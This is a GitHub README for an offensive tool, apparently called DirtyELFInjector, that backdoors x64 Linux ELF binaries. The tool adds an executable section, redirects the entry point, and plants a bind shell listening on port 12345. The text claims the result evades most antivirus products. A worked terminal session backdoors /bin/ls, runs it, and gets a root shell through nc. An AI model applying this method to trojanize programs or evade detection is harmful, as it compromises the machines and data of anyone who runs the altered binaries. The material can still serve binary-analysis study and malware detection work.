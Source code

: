 # DirtyELFInjector

Quick and Dirty Backdooring script x64 ELF binaries
Manually injecting shellcode into an arbitrary address of an ELF and hope it does not break, using bash/python/radare2.

## Disclaimer
I'm not responsible for the malicious any usage of this script, execute the binary generated by the script on machines with permission of the owners.
This tool is only a side project I played with.

## How it works
This was inspired by reading Practical Binary Analysis book, it was a great ressource to get the basics right.
How the `Inject` script work.

1. Inject new read/write/execute section, used with objcopy.
2. Change Entry point to the new section with  radare2.
3. Put the payload in the new section, used nasm+ld to compile the Trampoline payload, the default paylaod is a bind shell that listens on 12345.
3. Jump back to the original Entrypoint when at the end of the Trampoline payload.

The trick is to set the section offset on unused code to avoid seg faults.
Successfull test on ls with 0xbeef section offset, no detection from [AV](https://www.virustotal.com/gui/file/cf69e2fe0329c43a8ec0f14599f26d0a78f15aa22cf30336dd59d374a30ea895/detection) like symantec, Kaspersky, fortinet ... was quite surprised for a first attempt.
UPDATE 2020-07-18 got detected by Avast, AVG.

## Requirements
- radare2
- python
## Example usage

```bash
[BlackB0x DirtyELFInjector ]# ./Inject
What Binary you want backdoor in /bin?
ls 
0x0000000000002a8 0x00002a8

0x0000000000002e8 0x00002e8
0x000000000000308 0x0000308
0x0000000000003b8 0x00003b8
0x000000000000fb8 0x0000fb8
0x000000000001574 0x0001574
0x000000000001678 0x0001678
0x0000000000016f8 0x00016f8
0x0000000000034f8 0x00034f8
0x000000000004000 0x0004000
0x000000000004020 0x0004020
0x000000000004040 0x0004040
0x0000000000173c4 0x00173c4
0x000000000018000 0x0018000
0x00000000001d324 0x001d324
0x00000000001dc78 0x001dc78
0x000000000021fd0 0x0020fd0
0x000000000021fd8 0x0020fd8
0x000000000021fe0 0x0020fe0
0x000000000022a58 0x0021a58
0x000000000022c58 0x0021c58
0x000000000023000 0x0022000
0x000000000023280 0x0022268
0x000000000000000 0x0022268
0x000000000000000 0x00222b4
Section Offset? format: 0xbeef
0xbeef
LESO=efbe
objcopy: stVsHkjd: warning: allocated section `.backdoor' not in segment
objcopy: stcR435f: warning: allocated section `.backdoor' not in segment
Original entry=0x5b20
size of shellcode :173 bytes
jmp entry offset=0xbf9c
Warning: run r2 with -e io.cache=true to fix relocations in disassembly
Written 5 byte(s) (jmp 0x5b20 ) = wx e97f9bffff
 -- In Soviet Russia, radare2 has documentation.
^D
[BlackB0x DirtyELFInjector]# file injected_ls 
injected_ls: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4fef2dc9762eb7d4593f402a65cc02bb3d4c48de, for GNU/Linux 3.2.0, stripped
[BlackB0x ls_rev_shell]# netstat -tunelp |grep 12345
[BlackB0x ls_rev_shell]# ./injected_ls
a.out	       bindshell.o  gocave  InjectBytes.py  injected_git  nopsection  OLD   README.md  Trampoline.asm  WORKS
bindshell.asm  Enum	    Inject  injected_find   injected_ls   objcopy     Plan  shellcode  Trampoline.o
[BlackB0x DirtyELFInjector]# netstat -tunelp |grep 12345
tcp        0      0 0.0.0.0:12345           0.0.0.0:*               LISTEN      0          941082     28768/./injected_ls 
[BlackB0x DirtyELFInjector]# nc localhost 12345
id
uid=0(root) gid=0(root) groups=0(root)
^C[BlackB0x DirtyELFInjector]# netstat -tunelp |grep 12345
```
